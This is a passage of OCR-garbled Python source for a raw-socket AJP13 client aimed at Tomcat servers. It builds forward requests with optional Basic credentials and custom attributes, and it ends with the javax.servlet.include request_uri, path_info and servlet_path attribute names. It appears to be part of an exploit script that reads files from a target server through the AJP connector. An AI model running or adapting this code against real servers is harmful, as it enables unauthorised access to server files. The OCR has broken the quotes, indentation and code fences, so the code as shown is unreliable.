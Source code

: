 ```

‘SC_REQ_USER_AGENT’: ‘Mozilla’,

‘Accept-Encoding’: ‘gzip, deflate, sdch’,

‘Accept-Language’: ‘en-US,en;q=0.5’,

‘Upgrade-Insecure-Requests’: ‘1’,

‘Cache-Control’: ‘max-age=0’

}

fr.is_ssl = False

fr.attributes = []

return fr

class Tomcat(object):

def **init**(self, target_host, target_port):

self.target_host = target_host

self.target_port = target_port

```
 self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
	self.socket.connect((target_host, target_port))
	self.stream = self.socket.makefile("rb", bufsize=0)

def perform_request(self, req_uri, headers={}, method='GET', user=None, password=None, attributes=[]):
	self.req_uri = req_uri
	self.forward_request = prepare_ajp_forward_request(self.target_host, self.req_uri, method=AjpForwardRequest.REQUEST_METHODS.get(method))
	print("Getting resource at ajp13://%s:%d%s" % (self.target_host, self.target_port, req_uri))
	if user is not None and password is not None:
		self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
	for h in headers:
		self.forward_request.request_headers[h] = headers[h]
	for a in attributes:
		self.forward_request.attributes.append(a)
	responses = self.forward_request.send_and_receive(self.socket, self.stream)
	if len(responses) == 0:
		return None, None
	snd_hdrs_res = responses[0]
	data_res = responses[1:-1]
	if len(data_res) == 0:
		print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
	return snd_hdrs_res, data_res 
```

‘’’

javax.servlet.include.request_uri

javax.servlet.include.path_info

javax.servlet.include.servlet_path

```